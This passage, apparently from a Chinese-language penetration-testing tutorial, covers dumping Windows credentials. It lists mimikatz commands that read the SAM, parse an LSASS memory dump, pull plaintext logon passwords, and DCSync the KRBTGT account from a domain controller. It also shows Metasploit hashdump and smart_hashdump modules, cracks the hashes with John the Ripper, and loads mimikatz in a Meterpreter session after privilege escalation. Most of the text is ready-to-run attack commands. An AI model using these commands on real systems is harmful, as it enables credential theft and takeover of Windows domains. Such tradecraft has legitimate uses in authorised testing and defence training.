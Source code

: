 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

**3.mimikatz其他命令**

```
`#导出所有用户口令 使用Volue Shadow Copy获得SYSTEM、SAM备份``lsadump::sam SYSTEM.hiv` `#通过内存文件获取口令``sekurlsa::minidump lsass.dmp``sekurlsa::logonPasswords full``#拉取 rd.adsecurity.org 域中的 KRBTGT 用户帐户的密码数据``lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt``#拉取 lab.adsecurity.org 域中 ADSDC03 域控制器的计算机帐户的密码数据``lsadump::dcsync /domain:lab.adsecurity.org /user:adsdc03$`
```

**4.pass.exe读取明文密码**

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

window2008用getpassword.exe

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

* * *

  

---

**三、MSF抓取hash**
---------------

MSF在win7以下系统可以直接抓取hash，07以上要绕过uac才能进行抓取，抓取hash需要管理员权限。  
  
**1.hashdump抓取hash并破解  
![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)**

将得到的hash值复制hash到新文件利用john工具进行破解：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

```
`john a.hash``# 破解hash`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

**2.smart-hashdump模块**

```
`use windows/gather/smart_hashdump``set session x``run`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

**3.MSF+mimikatz**  

提权成功后执行：  

```
`#查看权限``getuid``#尝试获取system权限，一般都是失败，可利用溢出漏洞进行提权``getsystem` `#加载mimiakatz``load mimikatz``#帮助``help mimikatz``#随便输入一个a模块让他报错会显示所有可用模块``mimikatz_command -f a::` `#查看指定模块使用方法` `mimikatz_command -f hash::`
```
